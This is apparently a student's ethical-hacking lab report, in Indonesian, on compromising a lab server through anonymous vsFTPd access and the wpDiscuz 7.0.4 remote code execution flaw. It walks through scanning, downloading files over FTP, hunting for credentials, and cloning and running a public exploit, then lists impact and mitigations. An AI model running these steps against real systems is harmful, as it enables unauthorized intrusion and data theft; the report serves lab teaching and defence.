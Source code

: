 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

```bash
ls
get list.xyz
get readme.txt
exit
```

![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)

Masukkan password pada hashes.txt

```bash
nano hashes.txt
```

![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)

ssh ethack@10.15.42.245

![langkah 12](https://github.com/user-attachments/assets/2ca41880-cebd-4436-aa96-bcf6416946d0)


ls -l

cat readme.txt

![langkah 13](https://github.com/user-attachments/assets/729aab3a-0f7e-41c0-8db6-b2553c250bee)


Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)

```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
cd CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
